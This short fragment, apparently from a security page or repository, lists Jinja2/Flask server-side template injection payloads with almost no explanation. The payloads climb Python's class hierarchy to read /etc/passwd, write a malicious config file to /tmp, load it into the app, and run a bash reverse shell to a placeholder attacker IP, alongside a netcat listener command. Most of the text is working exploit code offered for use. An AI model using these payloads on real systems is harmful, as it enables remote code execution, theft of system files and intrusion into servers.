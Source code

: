 {{ ''.__class__.__mro__[2].__subclasses__() }}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}


Even code execution

#nv -lnvp 8000

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host

